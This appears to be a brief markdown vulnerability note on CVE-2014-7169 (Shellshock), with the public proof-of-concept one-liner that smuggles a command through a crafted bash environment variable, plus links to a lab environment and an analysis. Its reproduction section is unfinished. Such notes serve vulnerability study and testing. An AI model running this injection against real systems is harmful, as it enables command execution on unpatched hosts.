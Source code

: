 # CVE-2014-7169

**shellshock**

this vulnerability exists because of an incomplete fix for CVE-2014-6271

```bash
# https://seclists.org/oss-sec/2014/q3/688
env X='() { (a)=>\' sh -c "echo date"; cat echo
```

## Environment

[VulApps/b/bash/shellshock2_CVE-2014-7169 at master · Medicean/VulApps · GitHub](https://github.com/Medicean/VulApps/tree/master/b/bash/shellshock2_CVE-2014-7169)

## Reappear

**TODO**

## Reference

[CVE-2014-7169&nbsp;测试脚本及其分析_xxj123go_新浪博客](http://blog.sina.com.cn/s/blog_48ab118d0102v2u2.html)
